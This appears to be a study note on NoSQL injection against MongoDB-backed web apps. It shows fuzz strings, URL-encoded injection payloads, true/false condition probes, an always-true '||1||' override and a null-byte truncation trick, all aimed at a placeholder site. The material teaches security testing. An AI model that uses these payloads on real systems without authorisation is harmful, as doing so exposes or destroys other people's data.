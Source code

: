 ![[NoSQL Injections.webp]]
# NoSQL Types

Two different types of NoSQL injection:

- Syntax injection - occurs when you break the NoSQL query syntax and injecting your own payload. Similiar to SQL injection, but the nature varies as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
- Operator injection - using NoSQL query operators to manipulate queries.
# NoSQL Syntax Injection

Detect NoSQL injection by attempting to break the query syntax. Systematically test each input by submitting fuzz strings and special characters to trigger a database error or other detectable behaviour if it is not sanitized or filtered.

>[!info]
>Use a variety of fuzz strings to target multiple API languages.

For example, when a user chooses Fizzy Drinks category on a site, it requests the following:

```html
https://insecure-website.com/product/lookup?category=fizzy
```

It causes the app to send a JSON query to grab products from the product collection in MongoDB:

```json
this.category == 'fizzy'
```

Test if the input is vulnerable by fuzzing in the category parameter such as the following:

```json
'"`{
;$Foo}
$Foo \xYZ
```

Forge the attack:

```html
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

If change occurs, it indicates the user input is not filtered or sanitized. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become:

```json
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000.
```

Additionally, determine which characters are interpreted as syntax by injecting individual characters. For example, submitting `'` which results in the following:

```json
this.category == '''
```

If the response changed, it indicates the character broke the query. To confirm, submit a valid query string:

```json
this.category == '\''
```

If it does not change, it means the app is vulnerable. Afterwards, determine if you can influence boolean conditions. To test, send two requests, one with a false condition and one with a true condition such as:

- `' && 0 && 'z`
- `' && 1 && 'x`

```html
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If it behaves differently, the false condition impacts query logic, but true condition doesn't, indicating injecting it impacts a server-side query.

Attempt to override existing conditions by injecting a JavaScript condition that is always TRUE:

- `'||1||'`

Which may result in:

```json
this.category == 'fizzy'||'1'=='1'
```

Since it's always TRUE, it returns all items, viewing all products in any category.

>[!danger]
>Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.

Also try adding a null character after the category value. MongoDB may ignore all characters after a null byte. As an example, there may be a hidden query:

```json
this.category == 'fizzy' && this.released == 1
```

A payload could be injected:

```html
https://insecure-website.com/product/lookup?category=fizzy'%00
```

Which results in:

```json
this.category == 'fizzy'\u0000' && this.released == 1
```

If it ignores all characters after null byte, it removes the requirement.